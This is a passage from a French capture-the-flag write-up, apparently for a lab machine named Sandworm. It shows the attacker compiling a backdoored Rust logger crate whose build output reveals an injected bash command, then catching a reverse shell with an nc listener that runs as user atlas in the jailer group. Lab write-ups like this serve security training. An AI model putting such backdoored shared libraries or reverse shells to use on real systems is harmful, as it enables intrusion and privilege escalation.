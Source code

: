 ```console

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```

On a du auparavant l'écrire sur notre machine et le transférer par manque de droit d'écriture sur silenceobserver.
On compile ensuite :
```console
silentobserver@sandworm:/opt/crates/logger/src$ cargo build
   Compiling autocfg v1.1.0
   Compiling libc v0.2.142
   Compiling num-traits v0.2.15
   Compiling num-integer v0.1.45
   Compiling time v0.1.45
   Compiling iana-time-zone v0.1.56
   Compiling chrono v0.4.24
   Compiling logger v0.1.0 (/opt/crates/logger)
warning: unused variable: `output`
  --> src/lib.rs:10:9
   |
10 |     let output = Command::new("bash")
   |         ^^^^^^ help: if this is intentional, prefix it with an underscore: `_output`
   |
   = note: `#[warn(unused_variables)]` on by default

warning: `logger` (lib) generated 1 warning
    Finished dev [unoptimized + debuginfo] target(s) in 8.67s

```

Du côté attaquant, on obtient un shell dans le groupe "jailer"

```console
─$ nc -lvnp 5555        
listening on [any] 5555 ...

atlas@sandworm:/opt/tipnet$ id
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas),1002(jailer)
```
